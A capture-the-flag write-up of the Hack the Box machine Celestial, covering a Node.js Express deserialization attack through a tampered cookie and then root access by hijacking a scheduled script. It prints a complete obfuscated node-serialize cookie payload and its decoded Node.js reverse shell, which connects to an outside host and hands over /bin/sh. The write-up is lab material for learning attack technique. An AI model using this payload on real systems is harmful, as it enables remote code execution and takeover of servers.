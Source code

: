 Title: Celestial - Hack the Box
Date: 2018-12-04
Modified: 2020-02-05
Category: ctf
Tags: ctf, hack the box
Slug: htb-celestial
Authors: Riley
Summary: Guide to Celestial from Hack the Box, featuring a Node.js deserialization attack.

## Preamble

The original writeup I did for this was some time ago. My methodology then didn't include nearly as many images, and the box has been retired since August 2018.  <s>If I had the option to redo this with better notes and images to create a better product here, I absolutley would.</s>

Edit 2020-02-05:  I will be redoing this box sometime in the future.

## Description

The attack path for Celestial involves a deserialization attack against the hosted Node.js Express server, followed by some automated script hijacking.

Celestial's lab IP is `10.10.10.85`.

## Reconnaissance

The first thing I did was perform a scan of the host to determine what services were open, finding that only HTTP on port `3000` was available, which appeared to be a Node.js Express application.

Investigating the web page, the first thing display was a 404 error, but reloading the webpage revealed a different response, with the text __Hey Dummy, 2 + 2 = 22__.

Proxying my traffic through Burp suite revealed a base64 encoded cookie, with attributes including __username__, __country__, __city__, and __num__. Some research revealed that this Node.js application may be susceptible to a deserialization attack.

After some experimentation, I successfully generated a payload that would exploit the vulnerability.

#### Poisoned cookie, from Base64 with encoded JS shellcode

```json
{"username":"Dummy","rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,48,54,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,10,32,32,32,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,10,32,32,32,32,32,32,32,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,10,32,32,32,32,125,59,10,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) ;\n }()"}
```

#### JS shellcode, decoded from Base10 CharCode
```javascript
var net = require('net');
var spawn = require('child_process').spawn;
HOST="10.10.14.106";
PORT="1337";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') {
    String.prototype.contains = function(it) {
        return this.indexOf(it) != -1;
    };
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

After replacing my original cookie with the Base64 encoded tampered cookie, I got a reverse shell and the user flag.

![user](images/ctf/htb/celestial/user.png)

## Privilege Escalation

Now I have access to the box as user `sun`, who is part of the `sudo` users group.  I did not attempt to see if there were any alternate paths.

Of immediate interest was the file output.txt which has a creation time within the last 5- or 10-minute time increment and the contents `Script is running....`.

After some observation, the creation time increments every 5 minutes exactly, indicating an automated process. The contents of the file match the contents of the `echo "Script is running..."` line from a file called `script.py` under the `Documents/` directory. Modifying the script to output a different string also modified the output files contents.

I created a Python reverse shell and placed my code into script.py and set a listener on Kali. At the next 5-minute mark, my code executed and gave me another reverse shell and the root flag.

![root](images/ctf/htb/celestial/root.png)